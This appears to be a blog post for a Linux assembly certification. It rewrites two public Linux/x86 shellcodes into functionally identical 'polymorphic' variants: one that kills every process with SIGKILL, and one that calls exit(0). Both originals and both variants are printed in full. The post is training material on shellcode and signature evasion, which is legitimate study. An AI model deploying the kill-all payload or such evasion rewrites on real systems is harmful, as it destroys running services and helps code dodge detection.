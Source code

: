 ```yaml
---
layout: post
title: " Linux/x86 - Code Polymorphism examples "
date: 2017-05-04 12:00:00
share: true
comments: true
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 6.2 and 6.3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---

_In assignment 6, the requirement is polymorphing 3+ shellcodes off shellstorm.org or exploit-db.com_, which basically means modifying the code so it doesn't look like the original yet has the same functionality. This post contains the remaining 2 parts for assignment 3._
  

## Linux/x86 - kill all processes

The following shellcode is written by Kris Katterjohn and can be found [here](http://shell-storm.org/shellcode/files/shellcode-212.php).  

```nasm
section .text  
  
global _start  
  
_start:  
  
    ; kill(-1, SIGKILL)  
  
    push byte 37  
    pop eax  
    push byte -1  
    pop ebx  
    push byte 9  
    pop ecx  
    int 0x80  
```

Very simple code, it sets `EAX` to 37 (syscall for `kill()`), sets `EBX` to -1 (to target all processes) and `ECX` to 9 (`SIGKILL`).  
  
Let's modify this code slightly:  

```nasm
section .text  
  
global _start  
  
_start:  
  
    ; kill(-1, SIGKILL)  
  
    xor ebx, ebx  
    dec ebx  
    push byte 37  
    pop eax  
    push byte 9  
    pop ecx  
    int 0x80  
```

See what I did there? Shellcode is of same size so we're good.  
  

## Linux/x86 - exit(0)

The following shellcode is written by gunslinger_ and can be found [here](http://shell-storm.org/shellcode/files/shellcode-623.php).  

```cpp
/*  
Name   : 8 bytes sys_exit(0) x86 linux shellcode  
Date   : may, 31 2010  
Author : gunslinger_  
Web    : devilzc0de.com  
blog   : gunslinger.devilzc0de.com  
tested on : linux debian  
*/  
  
char *bye=  
 "\x31\xc0"                    /* xor    %eax,%eax */  
 "\xb0\x01"                    /* mov    $0x1,%al */  
 "\x31\xdb"                    /* xor    %ebx,%ebx */  
 "\xcd\x80";                   /* int    $0x80 */  
  
int main(void)  
{  
  ((void (*)(void)) bye)();  
  return 0;  
}  
```    

  
What can we do about this code? Well, `mov al, 0x1` can be replaced with `inc eax`.  

```nasm
global _start  
_start:  
  
xor eax, eax  
inc eax  
xor ebx, ebx  
int 0x80  
```

Shellcode is now one byte smaller, sweet.  
  
\- Abatchy
